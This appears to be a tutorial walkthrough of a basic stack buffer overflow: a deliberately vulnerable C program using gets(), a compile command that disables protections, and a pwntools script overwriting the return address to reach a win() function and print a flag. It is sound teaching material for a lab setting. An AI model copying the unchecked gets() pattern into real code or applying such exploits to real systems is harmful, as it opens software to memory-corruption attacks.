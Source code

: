 # Putting It All Together: A Full Walkthrough

Let's walk through a complete example, from writing a vulnerable program to exploiting it. This exercise combines everything we've learned so far.

### Step 1: The Vulnerable Program

Save the following code as `vulnerable.c`. It contains a classic stack buffer overflow vulnerability in the `vulnerable_function` and a `win` function that we want to execute.

```c
// File: vulnerable.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    printf("Congratulations! You've successfully exploited the buffer overflow!\n");
    printf("Here is your flag: flag{b4s1c_buff3r_0v3rfl0w_w1n}\n");
    fflush(stdout);
}

void vulnerable_function() {
    char buffer[40];
    printf("Enter your name: ");
    fflush(stdout);
    gets(buffer); // Vulnerable function! No bounds checking.
    printf("Hello, %s\n", buffer);
    fflush(stdout);
}

int main() {
    vulnerable_function();
    return 0;
}
```

### Step 2: Compile the Binary

Now, compile it with the security protections disabled so we can perform a simple "return-to-function" exploit.

```bash
gcc -fno-stack-protector -no-pie -o vulnerable vulnerable.c
```

### Step 3: Analyze and Write the Exploit

Our goal is to overflow the `buffer` in `vulnerable_function` and overwrite the return address on the stack with the address of the `win` function.

1.  **Find the offset**: We need to know how many bytes to send to fill the buffer and reach the return address. The buffer is 40 bytes. On x86-64, we also need to overwrite the 8-byte saved base pointer (RBP) before we get to the return address. So, the offset is `40 (buffer) + 8 (RBP) = 48` bytes.
2.  **Find the target address**: We need the address of the `win` function. We can use `pwntools` to find this automatically.

Here is the complete exploit script. Save it as `exploit.py`.

```python
# File: exploit.py
from pwn import *

# --- Configuration ---
binary_path = "./vulnerable"
context.binary = binary_path
context.log_level = 'info'

# --- Analysis ---
# The buffer is 40 bytes. On x86-64, we add 8 bytes to overwrite RBP.
offset = 48

# Use pwntools to find the address of the 'win' function
elf = ELF(binary_path)
win_address = elf.symbols['win']
log.info(f"Calculated offset: {offset}")
log.info(f"Address of 'win' function: {hex(win_address)}")

# --- Exploitation ---
p = process(binary_path)
payload = b'A' * offset + p64(win_address)
p.sendlineafter(b"Enter your name: ", payload)
print(p.recvall().decode())
```

### Step 4: Run the Exploit

Make the script executable (`chmod +x exploit.py`) and run it.

```bash
python3 exploit.py
```

You should see the "Congratulations!" message and the flag printed to your terminal, confirming your exploit was successful!
